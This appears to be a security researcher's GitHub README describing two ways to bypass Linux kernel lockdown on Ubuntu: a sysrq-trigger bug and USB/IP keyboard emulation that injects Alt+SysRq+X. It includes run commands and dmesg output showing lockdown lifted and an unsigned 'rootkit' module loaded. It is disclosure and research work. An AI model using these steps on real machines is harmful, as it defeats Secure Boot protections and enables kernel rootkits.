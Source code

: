 unlockdown
==========

This repo demonstrates some ways to disable or bypass kernel lockdown on Ubuntu kernels without physical access to the machine, essentially bypassing this security feature.

(Everything said here also probably applies to [Debian](https://salsa.debian.org/kernel-team/linux/tree/master/debian/patches/features/all/lockdown) and [Fedora](https://bugzilla.redhat.com/show_bug.cgi?id=1599197), but I haven't performed any tests with them.)

## Story

Once upon a time, while working on some [USB fuzzing](https://github.com/google/syzkaller/blob/master/docs/linux/external_fuzzing_usb.md) related stuff, I was about to trace the kernel via `kprobe` on my new laptop, but instead...

```
perf-tools/bin# ./kprobe 'r:usb usb_control_msg rv=$retval'
Tracing kprobe usb. Ctrl-C to end.
./kprobe: line 228: echo: write error: Operation not permitted
ERROR: adding kprobe "r:usb usb_control_msg $retval".
Last 2 dmesg entries (might contain reason):
...
    [  235.815912] Lockdown: kprobe: Use of kprobes is restricted; see man kernel_lockdown.7
Exiting.
```

Lockdown, eh?

## What is lockdown?

Linux kernel lockdown is a security feature that aims at restricting root's ability to modify the kernel at runtime.
See more details in ["Kernel lockdown in 4.17?"](https://lwn.net/Articles/750730/) by Jonathan Corbet and ["Linux kernel lockdown and UEFI Secure Boot"](https://mjg59.dreamwidth.org/50577.html) by Matthew Garrett.
After 2 years of being in review, the lockdown patchset has been [merged](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=aefcf2f4b58155d27340ba5f9ddbe9513da8286d) into the upstream kernel in version 5.4.
Ubuntu has applied [a version of this patchset](https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/bionic/commit/?id=49b04f8acc7788778a360e7462353a86eaffca53) to their kernels in 2018.

Lockdown is enabled by default on my ThinkPad X1 Carbon laptop with Ubuntu Bionic:

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
# dmesg
...
[    0.000000] secureboot: Secure boot enabled
[    0.000000] Kernel is locked down from EFI secure boot; see man kernel_lockdown.7
...
```

## Disabling lockdown

The early versions of the lockdown patchset integrated kernel lockdown with UEFI secure boot and had a way to disable lockdown at runtime by sending an Alt+SysRq+X key sequence on an attached physical keyboard. Later those patches [were](https://lore.kernel.org/linux-security-module/20190306235913.6631-1-matthewgarrett@google.com/) [dropped](https://lore.kernel.org/linux-security-module/CACdnJuuxAM06TcnczOA6NwxhnmQUeqqm3Ma8btukZpuCS+dOqg@mail.gmail.com/) from the upstream patchset, but not from the distro backports.

While some ways to trigger Alt+SysRq+X from software (e.g. via `/dev/uinput`) were accounted for and disabled, a few still remain.
Here I'll show some methods to disable lockdown by injecting an Alt+SysRq+X key sequence without having physical access to the machine.

### Method 0: sysrq-trigger

The lockdown patchset included a patch that disallowed disabling lockdown by triggering a SysRq via `/proc/sysrq-trigger`.
Unfortunately, the early versions of this patch contained a [bug](https://lore.kernel.org/lkml/15833.1551974371@warthog.procyon.org.uk/) and the restriction hadn't actually been enforced. On Ubuntu the bug has been [introduced](https://git.launchpad.net/~ubuntu-kernel/ubuntu/+source/linux/+git/bionic/commit/?id=531c25a35b2a93e025e72e04f16b0f3620ace581) with the first backport of the lockdown patches (since release in April 2018 for Bionic), and [fixed](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1851380) in December 2019.

Disabling lockdown with this method is trivial as shown [here](00-sysrq-trigger/run.sh).

Vulnerable:

```
# uname -a
Linux x1 4.15.0-70-generic #79-Ubuntu SMP Tue Nov 12 10:36:11 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux


# cd 00-sysrq-trigger/
# ./run.sh 
...
Done! Check dmesg.

# dmesg
...
[  315.760278] sysrq: SysRq : 
[  315.760282] This sysrq operation is disabled from userspace.
[  315.760292] Disabling Secure Boot restrictions
[  315.760296] Lifting lockdown
```

Fixed:

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 00-sysrq-trigger/
# ./run.sh 
...
Done! Check dmesg.

# dmesg
...
[  208.412031] sysrq: SysRq : 
[  208.412032] This sysrq operation is disabled from userspace.
```

(The fix actually went into `4.15.0-72-generic`.)

### Method 1: USB/IP

Another way to turn off lockdown is to emulate a USB keyboard via [USB/IP](http://usbip.sourceforge.net/) (as long as it's enabled in the kernel) and send an Alt+SysRq+X key combination through it.
This has actually been previously pointed out by Jann Horn [here](https://lore.kernel.org/patchwork/patch/898080/#1090220).

Ubuntu's kernels have USB/IP enabled (`CONFIG_USBIP_VHCI_HCD=m` and `CONFIG_USBIP_CORE=m`) with signed `usbip_core` and `vhci_hcd` modules provided in the `linux-extra-modules-*` package.

(Jann has also mentioned the Dummy HCD/UDC module, which can indeed by used together with e.g. GadgetFS to do the same trick, but `CONFIG_USB_DUMMY_HCD` is not enabled in Ubuntu kernels.)

[Here](https://github.com/xairy/unlockdown/blob/master/01-usbip/keyboard.c) you can find the code that emulates a keyboard over USB/IP and sends an Alt+SysRq+X key combination. [This script](https://github.com/xairy/unlockdown/blob/master/01-usbip/run.sh) shows how to run it.
It's possible to simplify the implementation of this method by directly interacting with the VHCI driver to emulate a USB device, but I didn't bother with this.

This method currently works on the latest Ubuntu kernels and has been [reported](https://bugs.launchpad.net/ubuntu/+source/linux/+bug/1861238) to Ubuntu.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd 01-usbip/
# ./run.sh 
...
+ modprobe vhci_hcd
+ modprobe usbip_core
+ echo 1
+ gcc keyboard.c -o keyboard
+ usbip attach -r 127.0.0.1 -b 1-1
+ ./keyboard
waiting for connection...
connection from 127.0.0.1
OP_REQ_IMPORT
+ sleep 3
USBIP_CMD_SUBMIT
control request
bRequestType: 0x80 (IN), bRequest: 0x6, wValue: 0x100, wIndex: 0x0, wLength: 64
USBIP_CMD_SUBMIT
control request
bRequestType: 0x80 (IN), bRequest: 0x6, wValue: 0x100, wIndex: 0x0, wLength: 18
...
+ echo 'Done! Check dmesg.'
Done! Check dmesg.

# dmesg
[  422.346185] vhci_hcd vhci_hcd.0: USB/IP Virtual Host Controller
[  422.346190] vhci_hcd vhci_hcd.0: new USB bus registered, assigned bus number 5
...
[  423.233918] input: x as /devices/platform/vhci_hcd.0/usb5/5-1/5-1:1.0/0003:046D:C312.0002/input/input19
[  423.293702] hid-generic 0003:046D:C312.0002: input,hidraw1: USB HID v1.10 Keyboard [x] on usb-vhci_hcd.0-1/input0
[  423.429609] sysrq: SysRq : Disabling Secure Boot restrictions
[  423.429612] Lifting lockdown
```

### Method 2: TBD

TBD.

## So what?

What happens now that lockdown has been disabled?

At the very least I can now use `kprobe` on my laptop.
(No need to waste time remembering that [tricky key combination sequence](https://superuser.com/questions/562348/altsysrq-on-a-laptop) every time.)

```
perf-tools/bin# ./kprobe 'r:usb usb_control_msg rv=$retval'
Tracing kprobe usb. Ctrl-C to end.
     kworker/3:2-984   [003] d...   334.012577: usb: (hub_ext_port_status+0x8b/0x130 <- usb_control_msg) rv=0x4
     kworker/3:2-984   [003] d...   334.012590: usb: (usb_clear_port_feature+0x35/0x40 <- usb_control_msg) rv=0x0
     kworker/3:2-984   [003] d...   334.012595: usb: (hub_ext_port_status+0x8b/0x130 <- usb_control_msg) rv=0x4
```

And of course it's now also possible to do other fun stuff like loading unsigned kernel modules.

```
# uname -a
Linux x1 4.15.0-74-generic #84-Ubuntu SMP Thu Dec 19 08:06:28 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux

# cd rootkit
# make
...

# insmod rootkit.ko
insmod: ERROR: could not insert module rootkit.ko: Required key not available

# cd ../01-usbip
# ./run.sh
...
Done! Check dmesg.
# dmesg | grep 'Lifting lockdown'
[  146.480046] Lifting lockdown

# cd ../rootkit
# insmod rootkit.ko
# dmesg | grep rootkit
[  175.953572] rootkit: loading out-of-tree module taints kernel.
[  175.953574] rootkit: module license 'unspecified' taints kernel.
[  175.953621] rootkit: module verification failed: signature and/or required key missing - tainting kernel
[  175.953975] rootkit successfully loaded
```
